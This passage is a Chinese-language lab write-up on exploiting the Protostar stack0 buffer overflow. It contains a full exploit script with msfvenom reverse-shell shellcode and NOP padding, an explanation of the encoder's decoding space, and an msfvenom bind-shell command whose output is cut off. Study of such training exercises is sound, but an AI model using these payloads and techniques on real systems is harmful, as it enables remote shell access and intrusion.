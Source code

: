 发现还是无法反弹shell,于是在shellcode前加一串nop试试，发现加9个以上的nop（\x90)可以成功反弹shell

加上nop后代码如下:

```
----------------------exploit.py--------------------------
#/usr/bin/python
import os
import sys

buf =  "\x90"*9
buf += "\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x12\xbb\xbe"
buf += "\x35\xbf\xc5\x31\x5e\x1a\x83\xc6\x04\x03\x5e\x16\xe2"
buf += "\x4b\x04\x64\x32\x50\x34\xd9\xee\xfc\xb9\x6d\x76\x89"
buf += "\x5f\x40\xf7\x1e\xc4\x33\x38\x88\xf8\xa9\xd0\xca\xfe"
buf += "\x25\x8f\x43\x1f\x5f\xa9\x0b\xb0\xf1\x62\x22\xd1\xb1"
buf += "\x41\xb4\xa0\x31\xe3\xb4\xd4\x3d\x13\x3d\x37\xfc\xf8"
buf += "\x31\x79\x1c\xf2\xf9\x04\x2e\x8b\xa2\x7f\x51\x15\xe2"
buf += "\x8c\x22\x25\xc7\x0d\xbd\xcb"

jmp_esp="\x70\xf8\xff\xbf"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
------------------------end-------------------------------

```

而经检验并不是shellcode在内存中的位置(0x0xbffff880)定位不准的问题,应该是由于以下原因造成：

上面msfvenom生成shellcode时，由于加了`-b "\x00"`参数，msfvenom默认用x86/shikata_ga_nai编码器编码，解码过程需要shellcode前面有一些空间（这里是9个字节大小的空间）用来帮助完成shellcode的解码过程

shellcode前面加上9个以上的nop后shellcode顺利的完成了解码，反弹了shell（本地事先用相同的payload+multi/handler监听,如果用`nc -lvp 2222`来监听不能建立shell的连接,用`nc -lvp`只能看到connect，然后就断了）

但是由于protostar系统是个liveCD系统，反弹的shell连上以后马上会断,应该是由于"光盘"特殊的原因

这样看来，并不是msf产生的shellcode就是毋庸置疑完全可靠的，前面竟要9个以上的空间才可支持其解码后顺利运行

用同样的方法在kali上尝试溢出反弹shell,将protostar系统中的stack0复制到kali上

```
scp user@192.168.3.105:/opt/protostar/bin/stack0 /root/桌面

```

用msfvenom重新生成shellcode:

```
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.3.106 LPORT=2222 -b "\x00" -f py
-------------------------output:-------------------------
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86_64 from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
```